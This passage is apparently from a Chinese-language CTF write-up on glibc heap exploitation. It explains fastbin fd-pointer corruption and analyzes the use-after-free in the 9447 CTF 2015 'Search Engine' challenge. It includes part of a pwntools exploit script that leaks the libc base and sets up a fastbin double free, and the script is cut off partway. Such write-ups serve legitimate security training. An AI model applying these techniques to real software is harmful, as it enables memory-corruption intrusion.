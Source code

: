 需要注意的是，在这里要保证fake_value对应的size大小应该与现在的fastbin的size一样，源码中的*d(此时的c)指代的就是正处于fastbin中的chunk的fd指针，而修改后，fd指针指向了栈中，然后再次进行malloc，得到的地址就是fd指向地址加0x10。

### 3.1	9447 CTF 2015: Search Engine

使用Index_sentence添加句子，使用malloc开辟一个堆存储句子，并且根据句子中单词个数存储了若干个Word结构体，每次将新的Word结构体插入到前一个的前面，形成一个链表，表头存储在全局变量0x6020b8中。该Word结构体大致如下所示：

```c
struct Word{
    char *word_ptr;
    int word_size;
    int unused_padding1;
    char *sentence;
    int sentence_size;
    int unused_padding2;
    struct Word *next;
}
```

用Search_word搜索输入的word所在的句子，此时使用malloc开辟一个堆存储要搜索的单词，找到后如果选择删除，将会把word中记录sentence内容清空变为\x00，并free掉，但是该地址的索引并没有删除，仍然存在。此外，不论是否将存储句子的堆块free掉，每次搜索完都会将存储待搜索单词的堆块free掉。

从网上寻找writeup，得到exp如下：

```python
#!/usr/bin/env python

from mypwn import *

#context.log_level = "debug"

p,elf,libc = init_pwn("./search-bf61fbb8fa7212c814b2607a81a84adf","","",[0x400b0b,0x400c3a,0x400b46,0x400bcb,0x400bed,0x400d13],False)

def search(word, s):
    p.recvuntil("3: Quit\n")
    p.sendline("1")
    p.recvline("Enter the word size:")
    p.sendline(str(len(word)))
    p.recvline("Enter the word:")
    p.send(word)
    if (s != ""):
        p.sendline(str(s))
        return p.recvline()

def index(word):
    p.recvuntil("3: Quit\n")
    p.sendline("2")
    p.recvline("Enter the sentence size:")
    p.sendline(str(len(word)))
    p.send(word)

index("a "+"a"*14)	#1 byte for search
search("a", "y")
index("A"*0x80)
search("A"*0x80, "y")	
# for the sentence
libc_base = u64(search("\x78", "n")[10:18])-0x3c4b78
log.info("libc_base: " + hex(libc_base))
#fastbin:0
#smallbin:1
index("b "+"b"*14)	#a(0)
index("c "+"c"*14)	#b
search("b", "y")	#c	a(0)->c
search("c", "y")	#d(c)	a(0)->b->d(c)
```